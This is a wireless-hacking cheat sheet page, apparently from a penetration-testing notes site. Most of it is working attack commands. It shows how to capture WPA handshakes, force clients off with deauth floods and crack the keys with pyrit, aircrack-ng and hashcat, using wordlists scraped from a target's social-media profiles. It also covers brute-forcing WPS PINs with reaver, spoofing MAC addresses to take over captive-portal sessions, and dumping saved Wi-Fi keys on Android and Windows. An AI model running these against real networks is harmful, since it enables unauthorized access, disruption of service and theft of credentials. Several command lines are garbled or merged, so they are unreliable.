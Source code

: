 ```yaml
---
title: Wireless
category: Exploitation
order: 7
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **Break WPA** 

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
# Rule set descriptions http://contest-2010.korelogic.com/rules.html
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Impersonate Departed User** 

Find a client:
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  Change MAC: sudo 
{% endhighlight %}

Copy MAC Address:
{% highlight bash %}
ifconfig en0 ether 00:01:02:03:04:05 ifconfig eth 0 down ifconfig eth0 hw ether [MAC] ifconfig eth0 up
{% endhighlight %}

> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profile name=”[apname]” key=clear 
{% endhighlight %}

> **Captive Portal: Impersonate Departed User**

[CPSCAM](http://www.willhackforsushi.com/code/cpscam.pl)

Find client: 
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  
{% endhighlight %}

Change MAC: 
{% highlight bash %}
ifconfig eth 0 down 
ifconfig eth0 hw ether [MAC] 
ifconfig eth0 up
{% endhighlight %}


> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



